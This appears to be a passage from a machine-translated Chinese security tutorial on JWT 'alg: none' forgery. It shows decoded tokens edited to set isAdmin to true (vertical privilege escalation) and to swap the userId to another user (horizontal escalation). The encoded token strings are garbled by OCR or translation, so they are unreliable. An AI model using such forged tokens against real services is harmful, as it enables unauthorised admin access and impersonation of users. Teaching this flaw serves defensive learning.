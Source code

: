 *![](img/f4dbd537097770ce1f6d050e66dc963a.png)*

*https://[www.base64url.com/](https://www.base64url.com/)*

> *修改的令牌*
> 
> *{"typ":"JWT "，" alg ":"无" }。{"iat": 1234567891，" iss": "locahost "，" exp":8545612354，" userId":"anubhav "，" **isAdmin":"true"** }。*
> 
> *eyj 0 exaioijkv 1 qilcjhbgcioijub 25 Lin 0 . eyjpyxqioiaxmjm 0 nty 3 odkxlcjpc 3 mioiaiibg 9 jywhvc 3 qilchlehaiojg 1 NDU 2 mtizntqsinvzzxjzci 6 imfudwjoyxyilcjpc 0 fkbwluijoidhj 1 zsj 9。*

*在这种情况下，当您向服务器提交这个令牌时，您将以**管理员的身份登录。** *这就是你如何从普通用户到管理员用户进行垂直权限升级。**

*您还可以通过将名称从`anubhav`更改为在该网站上注册的任何其他用户(假设为`vaibhav`)来进行横向权限提升。*

> ***解码令牌***
> 
> *{"typ":"JWT "，" alg ":"无" }。{"iat": 1234567891，" iss": "locahost "，" exp":8545612354，" userId":" **anubhav** ，" isAdmin":"false"}。*
> 
> ***修改令牌***
> 
> *{"typ":"JWT "，" alg ":"无" }。{"iat": 1234567891，" iss": "locahost "，" exp":8545612354，" userId":" **vaibhav** ，" isAdmin":"false"}。*
> 
> ***编码后的最终 jw token***
> 
> *eyj 0 exaioijkv 1 qilcjhbgcioijub 25 Lin 0 . eyjpyxqioiaxmjm 0 nty 3 odkxlcjpc 3 mioiaiibg 9 jywhvc 3 qilchlehaiojg 1 NDU 2 mtizntqsinvzzxjzci 6 inzhawjoyxyilcjpc 0 fkbwluijoizmfsc 2 uifq。*
